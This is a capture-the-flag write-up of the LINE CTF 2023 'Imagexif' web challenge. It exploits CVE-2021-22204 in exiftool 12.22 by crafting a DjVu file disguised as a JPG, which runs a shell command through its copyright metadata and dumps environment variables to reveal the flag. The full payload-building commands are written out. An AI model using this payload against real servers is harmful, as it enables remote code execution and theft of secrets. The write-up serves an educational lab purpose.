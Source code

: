 # Imagexif

## Description
This site provide you with the information of the image(EXIF) file. But there is a dangerous vulnerability here. I hope you get the data you want with the various functions of the system and your imagination

## Attachment
[imagexif_fd327e759b68136117e7f5edfc09ec0e.tar.gz](https://github.com/n1mdacybersec/CTF-Write-Up-Collection/blob/main/2023/LINE-CTF/Web/Imagexif/Challenge/imagexif_fd327e759b68136117e7f5edfc09ec0e.tar.gz)

## Solution
From the description of this challenge, in this website there's a vulnerability that can be exploited to gain the flag.

After searching on Google about the vulnerability of EXIF in a file, there's a vulnerability on `exiftool` and we got this [CVE-2021-22204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22204). This CVE could make a Remote Code Execution (RCE) to the machine. This vulnerability can be found on `Dockerfile`.

```dockerfile
RUN wget https://github.com/exiftool/exiftool/archive/refs/tags/12.22.tar.gz && \
    tar xvf 12.22.tar.gz && \
    cp -fr /exiftool-12.22/* /usr/bin && \
    rm -rf /exiftool-12.22 && \
    rm 12.22.tar.gz
```

From the `Dockerfile` the exiftool version 12.22 installed on the server is still vulnerable to CVE-2021-22204. Then, on `docker-compose.yml` file, we know that the flag in this challenge is in `environment` variable.

```yml
backend:
        build:
            context: ./backend/
        container_name: line_linectf2023_backend
        restart: always
        environment:
            - FLAG=LINECTF{redacted}
            - SCRIPT_ENV=production
        networks:
            - line-linectf2023-internal
```

I found a [link](https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/) to make a payload to exploit the CVE-2021-2204. Before we craft the payload, we need to install this package.

```bash
sudo apt install -y djvulibre-bin
```

After installing the `djvulibre-bin` on my machine, now I just need to craft the payload. This payload will execute arbitrary command inside the `Copyright` metadata.

```bash
$ printf 'P1 1 1 1' > input.pbm
$ cjb2 input.pbm mask.djvu
$ djvumake exploit.djvu Sjbz=mask.djvu
$ echo -e '(metadata (copyright "\\\n" . `env` #"))' > input.txt
$ djvumake exploit.djvu Sjbz=mask.djvu ANTa=input.txt
$ mv exploit.djvu exploit.jpg
```

Before I send the payload to the server, I need to check it on my local machine and to make sure that the payload work as intended. The payload is success to execute command on the local server.

![Test the payload on local](./test_on_local.png)

Now, I just need to upload the payload or the malicious image to the server for this challenge and we will get the flag.

![Flag](./solve.png)

### Alternate Solution
We can make the payload without manually executing a few lines of command. I found a Proof-of-Concept (PoC) from [bilkoh](/https://github.com/bilkoh/POC-CVE-2021-22204) to exploit CVE-2021-22204.

To use it, you just need to execute this command

```bash
./build_image.pl env
```

Where `env` is a command to be executed for target machine. After executing the above command, you'll got `notevil.jpg` as the payload and can be uploaded to the server.

## Flag
`LINECTF{2a38211e3b4da95326f5ab593d0af0e9}`
